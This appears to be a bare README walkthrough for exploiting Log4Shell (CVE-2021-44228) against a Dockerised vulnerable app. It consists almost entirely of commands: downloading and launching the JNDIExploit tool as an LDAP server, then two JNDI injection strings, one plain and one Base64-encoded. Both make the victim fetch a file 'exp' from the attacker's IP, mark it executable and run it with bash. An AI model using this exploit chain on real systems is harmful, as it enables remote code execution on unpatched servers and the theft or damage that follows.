








# # CVE-2021-44228

```
docker run -it --rm -p 8080:8080 securitrust/cve-2021-44228
```

```
wget https://github.com/SecuriTrust/HackTools/raw/main/JNDIExploit/JNDIExploit.v1.2.zip
```

```
unzip JNDIExploit.v1.2.zip
```

```
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 172.25.38.66 -p 8888
```

```
${jndi:ldap://172.25.38.66:1389/Basic/Command/Base64/wget 172.25.38.66:8090/exp && chmod 777 exp && bash exp}
```

```
${jndi:ldap://172.25.38.66:1389/Basic/Command/Base64/d2dldCAxNzIuMjUuMzguNjY6ODA5MC9leHAgJiYgY2htb2QgNzc3IGV4cCAmJiBiYXNoIGV4cA}
```


<br>

<br>

<br>

<br>

<br>

<br>

<br>

